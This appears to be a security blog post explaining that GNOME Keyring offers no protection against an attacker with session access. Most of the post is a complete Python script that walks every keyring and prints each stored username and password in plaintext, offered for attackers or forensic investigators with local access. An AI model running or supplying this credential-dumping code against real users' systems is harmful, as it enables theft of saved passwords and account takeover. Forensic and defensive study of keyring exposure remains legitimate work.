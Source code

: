 ```yaml
---
title:  "Extracting GNOME Keyring Credentials"
---
```


![Logo](/assets/images/keyring.jpg)

## Context
* Gnome Keyring is a (good:wink:) daemon that stores different security credentials encrypted in a file in the user’s home directory. It uses the login password for encryption, and after the keyring is decrypted at logon, the password is no longer necessary in the current user’s context. 
* Since usually password managers and tools of this kind are _more for users' convenience than security_, an attacker/forensic investigator with local access could also easily extract specific credentials from the GUI application (_Applications -> Accessories -> Passwords and Encryption Keyrings_), without being prompted for anything to authorize him.
* Gnome Keyring does not protecting against active attacks (when the attacker has access to user’s session).This is explained clearly in the [GNOME Keyring Security Philosophy](https://wiki.gnome.org/Projects/GnomeKeyring/SecurityPhilosophy):
> An active attacker might install an application on your computer, display a window, listen into the X events going to another window, read through your memory, snoop on you from a root account etc.
* The analogous application for KDE is [KWallet](https://utils.kde.org/projects/kwalletmanager/), which workes by the same principles. Oh, and there are python bindings is a python binding for this too.

## Dump keyring credentials using Python
```python
#
# Dumps all keys stored in Ubuntu keyrings
#

import gnomekeyring
 
def extract_keys():
    ''' Extract the usernames and passwords from all the keyrings'''
    
    for keyring in gnomekeyring.list_keyring_names_sync():
    # Get keyring name - "Login" is the default passwords keyring
        kr_name = keyring.title()
        print "Extracting keys from \"%s\" keyring:" % (kr_name)
        
        items = gnomekeyring.list_item_ids_sync(keyring);
        if len(items) == 0:
            print "Keyring \"%s\" is empty\n" % (kr_name)
            # If keyring is empty, continue to next keyring
            continue
        
        for i in range(0, len(items)):
            # Get information about an item (like description and secret)
            item_info = gnomekeyring.item_get_info_sync(keyring, items[i])
            description = item_info.get_display_name()
            password = item_info.get_secret()

            # Get attributes of an item (retrieve username)
            item_attr = gnomekeyring.item_get_attributes_sync(keyring, items[i])
            username = item_attr['username_value']

            print "[%d] %s" % (i, description)
            print " %s:%s" % (username, password)
        print ""
 
if __name__ == '__main__':
    extract_keys()
```
